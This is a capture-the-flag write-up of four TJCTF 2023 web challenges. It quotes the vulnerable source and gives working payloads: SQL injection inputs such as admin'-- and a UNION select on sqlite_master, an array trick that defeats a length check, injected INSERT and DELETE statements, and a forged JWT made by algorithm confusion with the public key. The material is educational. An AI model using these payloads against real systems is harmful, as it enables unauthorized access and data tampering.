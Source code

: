 # **(Write up) WEB Challenge TJCTF-2023**

* ## [web/swill-squill]

Source code: [here](/swill-squill)

```
def create_db():
    conn = sqlite3.connect(':memory:')
    c = conn.cursor()
    ...
    c.execute(
        'CREATE TABLE notes (description text, owner text)')
    c.execute('INSERT INTO notes VALUES (?, ?)',
              ("Saved this flag for safekeeping: "+flag, 'admin'))
```

The flag is in the note column of the description table with the owner as admin.
```
def post_register():
    name = request.form['name']
    grade = request.form['grade']

    if name == 'admin':
        return make_response(redirect('/'))

    res = make_response(redirect('/api'))
    res.set_cookie("jwt_auth", generate_token(name))

    c = conn.cursor()
    c.execute("SELECT * FROM users WHERE name == '"+name+"';")
```
I just replace the username parameter with payload `admin'--` to bypass `if name == 'admin'` and get `jwt_auth`.
```
name = load_token(request.cookies.get('jwt_auth'))['name']

    c = conn.cursor()

    string = "SELECT description FROM notes WHERE owner == '" + name + "';"
```
Then I send a request to /api and read the flag from admin's note.

* ## [web/ez-sql]

Source code: [here](/ez-sql)
```
app.get('/search', (req, res) => {
    const { name } = req.query;

    if (!name) {
        return res.status(400).send({ err: 'Bad request' });
    }

    if (name.length > 6) {
        return res.status(400).send({ err: 'Bad request' });
    }

    db.all(`SELECT * FROM jokes WHERE joke LIKE '%${name}%'`, (err, rows) => {
        if (err) {
            console.error(err.message);
            return res.status(500).send('Internal server error');
        }

        return res.send(rows);
    });
});
```
This challenge has a sql injection vulnerability in the name parameter of API /search.

To bypass `name.length > 6`, I send arrays instead of strings (http://example.com/search?name[0]=aaaaaaa).

And now, name.length=1 (1 element in the array)

<img src= "TJCTF-2023/ezsql/Screenshot 2023-05-27 131537.png">

Check to make sure sql can be injected with simple payload: `name[0]=aaaaaaa%25'--`
<img src= "TJCTF-2023/ezsql/Screenshot 2023-05-27 131800.png">

Extract table name contain flag: name[0]=aaaaaaa%' union select 1, tbl_name FROM sqlite_master--
<img src= "TJCTF-2023/ezsql/Screenshot 2023-05-27 131429.png">

Extract flag:
<img src= "TJCTF-2023/ezsql/Screenshot 2023-05-27 131659.png">

* ## [web/back-to-the-past](/back-to-the-past)
Source code: [here](/back-to-the-past)

Insecure signature authentication.
```
def generate_token(id, username, year):
    return jwt.encode(
        {"id": id, "username": username, "year": year}, private_key, algorithm="RS256"
    )
def verify_token(token):
    try:
        return jwt.decode(token.encode(), public_key, algorithms=["HS256", "RS256"])
    except:
        return None
```
Public key used to authenticate leaked signature ([public key here](/back-to-the-past/static/public_key.pem)). I can use it to generate fake JWT signature using HS256 algorithm.

Then, I send a request to `/retro` with the fake JWT to get the flag (in the fake JWT payload there is a `year` field less than 1970).
```@app.route("/retro")
@login_required()
def retro(user):
    if int(user["year"]) > 1970:
        return render_template("retro.html", flag="you aren't *retro* enough")
    else:
        return render_template("retro.html", flag=flag)
```

Code written by me in Python to generate and validate JWT: [here](/back-to-the-past/solution.py)

* ## [web/notes](/notes)
Source code: [here](/notes)

```
pool.query(`SELECT * FROM notes WHERE user_id = '${req.session.user_id}';`, (err, results) => {
        pool.query(`SELECT * FROM users WHERE id = '${req.session.user_id}';`, (err, users) => {
            res.render('index', { notes: results, user: users[0] || { username: flag } });
        });
    });
```
To get the flag in this challenge, I have to delete the user account row, while that user id still exists in `req.session.userid` variable.

But when the query delete user account is successful or not, `session` is still deleted

My solution to this challenge:

1. Jnject sql into password parameter to /register to create 2 users and create session for user1 on browser A.
```
app.post('/register', (req, res) => {
    if (req.session.user_id)
        return res.redirect('/');

    if (!req.body.username || !req.body.password)
        return res.redirect('/register?e=missing%20fields');

    const id = v4();
    pool.query(`INSERT INTO users (id, username, password) VALUES ('${id}', '${req.body.username}', '${req.body.password}');`, (err, results) => {
        if (err) {
            res.redirect('/register?e=user%20already%20exists');
        } else {
            associateSessionWithUser(id, req.session);
            res.redirect('/');
        }
    });
});
```
Payload:
```
username = user1
password = pass1'), ('idu2', 'user2', 'pass2');-- -
```
2. Login user2 account on browser B.

Now the query will work normally, session for user2 is created

3. In browser A, I send a request to `/user/delete` with `password = incorpass' or username = 'user2'-- -`

```
    const id = req.session.user_id;

    pool.query(`DELETE FROM users WHERE id = '${id}' AND password = '${req.body.password}';`, (err, results) => {

        pool.query(`SELECT * FROM users WHERE id = '${id}' AND password != '${req.body.password}';`, (err, results) => {

            if (err)
                return res.redirect('/?e=an%20error%20occurred');

            if (results.length !== 0)
                return res.redirect('/?e=incorrect%20password');

            sessions[id].forEach(session => {
                session.destroy();
            });
```
`user1` password is wrong, delete query will delete `user2` account, and user1 session.

4. Reload page in browser B

Now the things that still exist include user1 session and user2 account

Reload the page with `user2` session, `username2` will be replaced with `flag`
